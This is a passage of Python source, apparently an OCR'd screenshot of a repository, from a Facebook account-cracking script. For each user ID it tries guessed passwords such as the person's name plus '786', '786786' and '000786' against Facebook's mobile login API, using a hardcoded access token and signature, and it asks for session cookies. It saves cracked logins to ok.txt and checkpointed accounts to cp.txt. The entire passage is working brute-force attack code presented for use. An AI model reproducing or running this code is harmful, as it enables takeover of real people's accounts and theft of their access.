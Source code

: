 		                            ok.write(uid+" | "+pass3+"\n")
		                            ok.close()
		                            oks.append(uid)
		                        else:
		                            pass4=name+"786"
		                            q = requests.get("https://b-api.facebook.com/method/auth.login?access_token=237759909591655%25257C0f140aabedfb65ac27a739ed1a2263b1&format=json&sdk_version=2&email=" + uid + "&locale=vi_vn&password=" + pass4 + "&sdk=ios&generate_session_cookies=1&sig=15df5f3c8c37e0a620e8fa1fd1dd705c", headers=header).text
		                            d=json.loads(q)
		                            if 'www.facebook.com' in d['error_msg']:
		                                print("\x1b[1;97m[\x1b[1;93mCheckPoint\x1b[1;97m]\x1b[1;97m "+uid+"\x1b[1;91m | \x1b[1;97m"+pass4+"\x1b[1;91m | \x1b[1;97m"+name)
		                                cp=open("cp.txt","a")
		                                cp.write(uid+" | "+pass4+"\n")
		                                cp.close()
		                                cps.append(uid)
		                            else:
		                                if 'access_token' in d:
		                                    print("\x1b[1;92m[Successfull] "+uid+" | "+pass4+" | "+name)
		                                    ok=open("ok.txt","a")
		                                    ok.write(uid+" | "+pass4+"\n")
		                                    ok.close()
		                                    oks.append(uid)
		                                else:
		                                    pass5="786786"
		                                    q = requests.get("https://b-api.facebook.com/method/auth.login?access_token=237759909591655%25257C0f140aabedfb65ac27a739ed1a2263b1&format=json&sdk_version=2&email=" + uid + "&locale=vi_vn&password=" + pass5 + "&sdk=ios&generate_session_cookies=1&sig=15df5f3c8c37e0a620e8fa1fd1dd705c", headers=header).text
		                                    d=json.loads(q)
		                                    if 'www.facebook.com' in d['error_msg']:
		                                        print("\x1b[1;97m[\x1b[1;93mCheckPoint\x1b[1;97m]\x1b[1;97m "+uid+"\x1b[1;91m | \x1b[1;97m"+pass5+"\x1b[1;91m | \x1b[1;97m"+name)
		                                        cp=open("cp.txt","a")
		                                        cp.write(uid+" | "+pass5+"\n")
		                                        cp.close()
		                                        cps.append(uid)
		                                    else:
		                                        if 'access_token' in d:
		                                            print("\x1b[1;92m[Successfull] "+uid+" | "+pass5+" | "+name)
		                                            ok=open("ok.txt","a")
		                                            ok.write(uid+" | "+pass5+"\n")
		                                            ok.close()
		                                            oks.append(uid)
		                                        else:
		                                            pass6="000786"
		                                            q = requests.get("https://b-api.facebook.com/method/auth.login?access_token=237759909591655%25257C0f140aabedfb65ac27a739ed1a2263b1&format=json&sdk_version=2&email=" + uid + "&locale=vi_vn&password=" + pass6 + "&sdk=ios&generate_session_cookies=1&sig=15df5f3c8c37e0a620e8fa1fd1dd705c", headers=header).text
		                                            d=json.loads(q)
		                                            if 'www.facebook.com' in d['error_msg']:
		                                                print("\x1b[1;97m[\x1b[1;93mCheckPoint\x1b[1;97m]\x1b[1;97m "+uid+"\x1b[1;91m | \x1b[1;97m"+pass6+"\x1b[1;91m | \x1b[1;97m"+name)
		                                                cp=open("cp.txt","a")
		                                                cp.write(uid+" | "+pass6+"\n")
		                                                cp.close()
		                                                cps.append(uid)
		                                            else:
		                                                if 'access_token' in d:
		                                                    print("\x1b[1;92m[Successfull] "+uid+" | "+pass6+" | "+name)
		                                                    ok=open("ok.txt","a")
		                                                    ok.write(uid+" | "+pass6+"\n")